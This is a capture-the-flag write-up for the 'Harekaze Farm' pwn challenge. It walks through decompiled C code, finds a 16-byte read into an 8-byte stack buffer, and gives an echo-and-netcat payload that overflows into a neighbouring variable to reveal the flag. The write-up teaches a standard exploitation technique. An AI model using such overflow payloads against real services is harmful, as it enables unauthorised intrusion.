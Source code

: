 Harekaze Farm
===

**Category:** pwn, **Points:** 100, **Solves:** 122

```
nc problem.harekaze.com 20328

In Harekaze Farm, some animas is living. Let’s find them!

file: harekaze_farm
```

## Writeup

Let's run the binary and check what is actually does:

```
$ ./harekaze_farm
Welcome to Harekaze farm
Input a name of your favorite animal: cow
Input a name of your favorite animal: hen
Input a name of your favorite animal: fox
Begin to parade!
cow: "moo" "moo"
hen: "cluck" "cluck"
```

It just ask thrice for animal name and then prints what it does say.
Expect for fox :(

Now, let's take a look at the code. The binary contains debugging symbols,
so it is even easier to analyze. Here's the second half of main function:

```c
puts("Begin to parade!");
for ( j = 0; j <= 2; ++j )
{
  // sizeof(select_animals[0]) == 8
  if ( !strcmp((const char*) &select_animals[j], "cow") )
    puts("cow: \"moo\" \"moo\"");
  if ( !strcmp((const char*) &select_animals[j], "sheep") )
    puts("sheep: \"baa\" \"baa\"");
  if ( !strcmp((const char*) &select_animals[j], "goat") )
    puts("goat: \"bleat\" \"bleat\"");
  if ( !strcmp((const char*) &select_animals[j], "hen") )
    puts("hen: \"cluck\" \"cluck\"");
  if ( !strcmp((const char*) &select_animals[j], "isoroku") )
  {
    puts("isoroku: \"flag is here\" \"flag is here\"");
    // loads and prints the flag
  }
```

So, we need to put `"isoroku"` into `select_animals` table. Let's read the first
part of main:

```c
char s1[8]; // [sp+20h] [bp-110h]@2
__int64 v19; // [sp+28h] [bp-108h]@2

puts("Welcome to Harekaze farm");
for ( i = 0; i <= 2; ++i )
{
  *(_QWORD *)s1 = 0LL;
  v19 = 0LL;
  printf("Input a name of your favorite animal: ");
  s1[__read_chk(0LL, s1, 16LL, 16LL) - 1] = 0;
  if ( !strcmp(s1, "cow") )
  {
    v3 = (char *)&select_animals[i];
    *(_QWORD *)v3 = *(_QWORD *)s1;
    *((_QWORD *)v3 + 1) = v19;
  }
  // same if for another animals; it lacks isoroku though
```

So, we read some bytes into `s1`, then `strcmp` it with predefined animal names.
If there's a match, it saves its name to one cell of `select_animals` and
puts zero in next cell.

But wait... we read 16 bytes into `s1` which is `char[8]`! So we can overwrite
something on stack. What does lie right after `s1`? `v19`. And if we take
a look at the if branch, that's what we assume to be zero while zeroing next
element. So we can write any animal name we want!

So, that's how we can exploit it with echo:
```
$ echo -e 'cow\0....isoroku\0\n\n\n' | nc problem.harekaze.com 20328
Welcome to Harekaze farm
Input a name of your favorite animal: Input a name of your favorite animal: Input a name of your favorite animal: Begin to parade!
cow: "moo" "moo"
isoroku: "flag is here" "flag is here"
HarekazeCTF{7h1s_i5_V3ry_B3ginning_BoF}
```

###### By [mrowqa](https://github.com/Mrowqa) <artur.jamro@gmail.com>
